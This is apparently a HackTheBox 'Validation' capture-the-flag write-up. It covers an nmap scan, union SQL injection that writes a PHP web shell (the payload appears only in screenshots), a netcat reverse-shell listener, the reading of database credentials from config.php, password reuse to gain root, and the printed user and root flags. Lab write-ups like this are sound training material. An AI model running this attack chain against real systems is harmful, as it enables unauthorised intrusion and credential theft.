 # Validation - HackTheBox

<img src="../htb_assets/images/validation/2022-06-08-13-34-21-image.png"/>





## 1. Enumeration

### Nmap Initial Scan

```
┌──(root💀kali)-[~/htb/validation]
└─# cat nmap_init  
# Nmap 7.92 scan initiated Wed Jun  8 13:36:56 2022 as: nmap -sC -sV -oN nmap_init 10.129.95.235
Nmap scan report for 10.129.95.235
Host is up (0.15s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  8 13:37:14 2022 -- 1 IP address (1 host up) scanned in 17.98 seconds
                                                                                               
```



### Union SQL Injection

<img src="../htb_assets/images/validation/2022-06-08-14-31-28-image.png"/>



<img src="../htb_assets/images/validation/2022-06-08-14-31-36-image.png"/>





Now, writes shell code into shell.php

<img src="../htb_assets/images/validation/2022-06-08-14-39-45-image.png"/>



While passing system command to the url we can execute system commands.

<img src="../htb_assets/images/validation/2022-06-08-14-49-21-image.png"/>





Let's create a bash reverse shell by turning listener on netcat

<img src="../htb_assets/images/validation/2022-06-08-14-50-59-image.png"/>





We now logged in as www-data,

```
┌──(root💀kali)-[~/htb/validation]
└─# nc -lvnp 1234                            
listening on [any] 1234 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.95.235] 39514
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ whoami
whoami
www-data

```





Now we got some credentials,

```
www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>

```





As there is no python installed, we can make interactive shell using,

```
www-data@validation:/var/www/html$ script -q /dev/null bash
```





The password we previously got looks like a global one, lets try - 

```
root@validation:/var/www/html# cd /home
root@validation:/home# ls
htb
root@validation:/home# cd htb
root@validation:/home/htb# ls
user.txt
root@validation:/home/htb# cat user.txt 
c55c4f48f5dc7a57469823b7cd13f39d
root@validation:/home/htb# cat /root/root.txt 
9994b530a9f83091fe4bafe64981ee27

```



